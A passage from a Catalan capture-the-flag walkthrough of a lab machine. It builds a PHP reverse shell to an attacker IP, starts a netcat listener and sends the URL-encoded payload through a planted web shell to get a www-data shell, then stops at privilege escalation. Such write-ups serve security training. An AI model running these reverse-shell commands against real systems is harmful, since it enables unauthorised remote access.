 Creem una revshell en PHP, la IP `192.168.1.116` és la de la nostra màquina atacant.

```bash
php -r '$sock=fsockopen("192.168.1.116",443);exec("/bin/bash <&3 >&3 2>&3");'
```

Ens posem a escoltar amb `netcat`, codifiquem la revshell en `urlencode` i l'enviem al paràmetre `cmd` de la nostra shell improvisada. Per obtenir una shell més completa, fem tractament de la TTI.

```bash
nc -lvnp 443
```

```bash
wget http://m47r1x.matrix.nyx/shell.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.116%22%2C443%29%3Bexec%28%22%2Fbin%2Fbash%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

![alt text](../../../assets/images/matrix/image-14.png)

Ja som l'usuari `www-data`.


```bash
www-data@matrix:/var/www/M47r1X.matrix.nyx$ ls -la
total 36
drwxr-xr-x 2 www-data www-data 4096 Jan 29 13:27 .
drwxr-xr-x 4 root     root     4096 Jan 28 21:00 ..
-rw-r--r-- 1 root     root      361 Jan 27 02:47 filtrate-backend-matrix.php.txt
-rw-r--r-- 1 root     root     1765 Jan 27 01:04 hoja.css
-rw-r--r-- 1 root     root     4782 Jan 28 23:55 index.php
-rw-r--r-- 1 root     root      806 Jan 27 00:48 matrix.js
-rw-r--r-- 1 www-data www-data   17 Jan 29 13:26 messages.txt
-rw-r--r-- 1 www-data www-data   34 Jan 29 13:27 shell.php
```

## Escalada de privilegis

Tractem la TTI correctament per obtenir una shell completa.

Comprovem quins usuaris hi ha al sistema.
